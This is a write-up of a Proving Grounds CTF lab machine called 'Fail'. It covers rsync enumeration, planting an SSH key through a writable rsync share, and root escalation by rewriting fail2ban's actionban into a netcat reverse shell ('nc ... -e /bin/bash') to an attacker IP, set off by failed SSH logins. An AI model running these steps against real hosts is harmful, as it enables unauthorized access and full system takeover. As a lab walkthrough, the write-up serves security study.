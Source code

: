 ```yaml
---
title: "Proving grounds Practice: Fail"
layout: post
date: 2023-12-30 02:00
categories: writeup
---
```


Proving grounds - Fail CTF writeup.

## Nmap

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 873/tcp open  rsync (protocol version 31)

List `rsync` modules using nmap.

```sh
naveenj@hackerspace:|01:49|~/proving_grounds/Fail$ nmap -sV --script "rsync-list-modules" -p 873 192.168.195.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 01:50 EDT
Nmap scan report for 192.168.195.126
Host is up (0.28s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox            	fox home
```

**Rsync Enumeration**

```sh
naveenj@hackerspace:|01:52|~/proving_grounds/Fail$ rsync -av --list-only rsync://192.168.195.126/
fox            	fox home

naveenj@hackerspace:|01:53|~/proving_grounds/Fail$ rsync -av --list-only rsync://192.168.195.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 09:21:59 .
lrwxrwxrwx              9 2020/12/03 15:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 00:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 00:12:36 .bashrc
-rw-r--r--            807 2019/04/18 00:12:36 .profile
```

Upload .ssh directory with our SSH public key as authorized_keys

```sh
naveenj@hackerspace:|02:12|~/proving_grounds/Fail$ rsync -av .ssh/ rsync://fox@192.168.195.126/fox/.ssh
sending incremental file list
created directory /.ssh
./
authorized_keys

sent 27,331 bytes  received 161 bytes  7,854.86 bytes/sec
total size is 26,861  speedup is 0.98
```

**.ssh Folder**

```sh
naveenj@hackerspace:|02:14|~/proving_grounds/Fail$ ll .ssh
total 48K
4.0K drwxr-xr-x 3 naveenj naveenj 4.0K Oct 20 02:12 ../
4.0K -rw-r--r-- 1 naveenj naveenj  573 Oct 20 01:56 authortized_keys
```

SSH to user fox to obtain initial foothold.

## Privilege Escalation

Check user and group id

```sh
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
```

## Fail2ban Privilege Escalation

[https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)

The user can write permission to action.d folder and upon recon the fail2ban is enabled for the SSH service.

```conf
# Provide customizations in a jail.local file or a jail.d/customisation.local.
# For example to change the default bantime for all jails and to enable the
# ssh-iptables jail the following (uncommented) would appear in the .local file.
# See man 5 jail.conf for details.
#
# [DEFAULT]
# bantime = 1h
#
# [sshd]
# enabled = true
```

The default configuration says the host will be banned for a minute after 2 invalid attempts.

```conf
# "bantime" is the number of seconds that a host is banned.
bantime  = 1m

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10m

# "maxretry" is the number of failures before a host get banned.
maxretry = 2
```

Upon changing the config in the iptables-multiport.conf to a reverse shell.

```conf
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = /usr/bin/nc 192.168.45.247 80 -e /bin/bash
```

Run the netcat listener and try invalid ssh login attemps to trigger shell.

![img](/assets/images/CTF/Proving_Grounds/Fail/root.png)

**Root obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
